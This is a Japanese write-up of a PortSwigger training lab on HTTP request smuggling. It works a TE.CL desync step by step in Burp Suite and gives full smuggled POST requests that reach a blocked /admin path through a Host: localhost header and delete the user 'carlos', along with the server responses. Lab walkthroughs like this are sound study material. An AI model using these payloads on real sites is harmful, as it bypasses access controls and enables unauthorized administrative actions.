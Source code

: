 # HTTP リクエストの密輸を悪用してフロントエンドのセキュリティ制御、TE.CL の脆弱性をバイパスする

以下のハッキングラボを実施します  
https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl  
このラボにはフロントエンド サーバーとバックエンド サーバーが含まれますが、バックエンド サーバーはチャンク エンコーディングをサポートしていません。

- 1. BurpSuite を起動して、Proxy タブからブラウザを起動します
- 2. ブラウザからハッキングラボにアクセスします
- 3. GET / リクエストを send to repeater します

* 4. GET /admin に書き換えてリクエストを送信します

```
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8
Content-Length: 24

"Path /admin is blocked"
```

- 5. Repeater のリクエストを表示した状態で右クリックして change to request を選択して、POST リクエストに切り替えます
- 6. inspector で http/1 に設定します
- 7. リクエストを以下のように書き換えて 2 回送信します。

```
POST / HTTP/1.1
Host: 0ad3006a041d606480b8625600ad0033.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

レスポンスでローカルユーザーならアクセスできる情報が得られます

```
Admin interface only available to local users
```

- 8. Host ヘッダーで localhost を指定して、リクエストを 2 回送信します。

```
POST / HTTP/1.1
Host: 0ad3006a041d606480b8625600ad0033.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

レスポンスで一般ユーザーの削除リンクが得られます

```html
<a href="/admin/delete?username=carlos">Delete</a>
```

- 9. アクセス先を変更して、リクエストを 2 回送信します

```
POST / HTTP/1.1
Host: 0ad3006a041d606480b8625600ad0033.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

一般ユーザーの削除に成功しました

```
HTTP/1.1 302 Found
Location: /admin
Set-Cookie: session=Wj4gDHuCUPsmAC6OwVujIwJpnYoBdQST; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 0
```
